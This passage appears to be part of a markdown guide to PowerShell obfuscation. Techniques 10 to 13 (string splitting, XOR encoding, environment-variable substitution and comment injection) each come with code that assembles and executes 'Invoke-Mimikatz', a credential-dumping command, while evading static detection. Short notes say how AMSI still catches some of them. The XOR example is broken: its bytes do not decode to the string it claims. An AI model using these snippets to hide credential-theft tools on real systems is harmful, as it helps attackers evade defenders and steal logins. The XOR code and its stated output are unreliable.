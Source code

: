 ### 10. Obfuscated String Splitting
- **Description**: Splits a string into substrings and reassembles it at runtime, often using arrays or random splits to avoid detection.
- **Example**:
  ```powershell
  $parts = @("In", "vo", "ke-", "Mimi", "katz")
  $cmd = $parts -join ""
  Invoke-Expression $cmd
  ```
  - **Explanation**: Splits `Invoke-Mimikatz` into an array and joins it. This can evade static analysis, but AMSI scans the joined string.

### 11. XOR Encoding
- **Description**: Applies XOR operations to encode strings, decoding them at runtime with a key to reconstruct the original command.
- **Example**:
  ```powershell
  $key = 0x42
  $encoded = [byte[]]@(0x2f, 0x38, 0x3f, 0x37, 0x2b, 0x65, 0x20, 0x29, 0x3c, 0x3c, 0x2b, 0x2a, 0x38, 0x3d)
  $decoded = $encoded | ForEach-Object { $_ -bxor $key }
  $cmd = [Text.Encoding]::ASCII.GetString($decoded)
  Invoke-Expression $cmd  # Decodes to "Invoke-Mimikatz"
  ```
  - **Explanation**: XOR-encodes `Invoke-Mimikatz`, decodes at runtime. This is harder to detect statically, but AMSI may scan the decoded string.

### 12. Environment Variable Substitution
- **Description**: Uses environment variables to store parts of a command, substituting them at runtime to build the script.
- **Example**:
  ```powershell
  $env:PART1 = "Invoke"
  $env:PART2 = "Mimikatz"
  $cmd = "$env:PART1-$env:PART2"
  Invoke-Expression $cmd
  ```
  - **Explanation**: Stores `Invoke` and `Mimikatz` in environment variables. This spreads the command across system state, but AMSI scans the final script block.

### 13. Comment Injection
- **Description**: Inserts comments or irrelevant code to obscure the script’s logic, making it harder to analyze manually.
- **Example**:
  ```powershell
  # This is a harmless script
  $cmd = "Invoke-Mimikatz" # Just a test
  # Some unrelated comment
  &$cmd
  ```
  - **Explanation**: Adds comments to distract analysts. Doesn’t evade AMSI but complicates human review.
